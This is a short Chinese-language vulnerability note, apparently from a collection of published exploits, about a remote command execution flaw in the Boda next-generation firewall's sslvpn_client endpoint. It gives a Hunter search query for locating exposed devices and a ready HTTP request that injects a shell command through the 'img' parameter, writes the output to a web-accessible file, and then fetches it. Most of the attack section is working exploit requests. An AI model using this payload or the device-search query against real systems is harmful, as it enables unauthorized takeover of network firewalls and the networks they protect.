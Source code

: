 # 博达下一代防火墙sslvpn_client存在远程命令执行漏洞

# 一、漏洞简介
博达下一代防火墙sslvpn_client存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 博达下一代防火墙

# 三、资产测绘
+ hunter`web.title=="博达下一代防火墙"`||`web.title=="博达上网行为管理"`
+ 特征

![1701763514488-337ef992-b1b8-4613-be19-61a335aefe7c.png](./img/KFOD6d47fNNCV5ke/1701763514488-337ef992-b1b8-4613-be19-61a335aefe7c-234395.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e.png](./img/KFOD6d47fNNCV5ke/1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e-955380.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762342384-224cbced-19ed-428d-b26d-9957865251d2.png](./img/KFOD6d47fNNCV5ke/1701762342384-224cbced-19ed-428d-b26d-9957865251d2-247511.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hypcbmrskmt1pm4v>